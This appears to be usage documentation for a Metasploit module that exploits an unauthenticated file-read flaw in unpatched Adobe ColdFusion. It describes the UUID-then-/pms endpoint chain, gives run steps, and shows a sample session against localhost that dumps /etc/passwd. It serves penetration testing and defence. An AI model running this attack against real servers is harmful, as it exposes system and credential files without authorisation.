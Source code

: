 ## Vulnerable Application
This module exploits an Improper Access Vulnerability in Adobe Coldfusion versions prior to version
'2023 Update 6' and '2021 Update 12'. The vulnerability allows unauthenticated attackers to request authentication
token in the form of a UUID from the /CFIDE/adminapi/_servermanager/servermanager.cfc endpoint. Using that
UUID attackers can hit the /pms endpoint in order to exploit the Arbitrary File Read Vulnerability.

### Setup

#TODO: Find out how to setup a vulnerable target and put those details here.

## Verification Steps

1. Start msfconsole
1. Do: `use coldfusion_pms_servlet_file_read`
1. Set the `RHOST` and datastore option
1. If the target host is running Windows, change the default `FILE_PATH` datastore options from `/tmp/passwd` to a file path that exists on Windows.
1. Run the module
1. Receive the contents of the `FILE_PATH` file 

## Scenarios
### ColdFusion Version 2023.0.0.330468 running on Linux

```
msf6 auxiliary(gather/coldfusion_pms_servlet_file_read) > run
[*] Reloading module...
[*] Running module against 127.0.0.1

[*] Attempting to retrieve UUID ...
[+] UUID found: 1c49c29a-f1c0-4ed0-9f9e-215f434c8a12
[*] Attempting to exploit directory traversal to read /etc/passwd
[+] File content:
n00tmeg:x:1000:1000:n00tmeg,,,:/home/n00tmeg:/bin/bash
hplip:x:127:7:HPLIP system user,,,:/run/hplip:/bin/false
pulse:x:125:132:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin
colord:x:123:130:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
nm-openvpn:x:121:127:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
speech-dispatcher:x:119:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
whoopsie:x:117:124::/nonexistent:/bin/false
cups-pk-helper:x:115:122:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
tcpdump:x:109:117::/nonexistent:/usr/sbin/nologin
uuidd:x:107:115::/run/uuidd:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
games:x:5:60:games:/usr/games:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

[+] Results saved to: /Users/jheysel/.msf4/loot/20240403192500_default_127.0.0.1_coldfusion.file_475871.txt
[*] Auxiliary module execution completed
```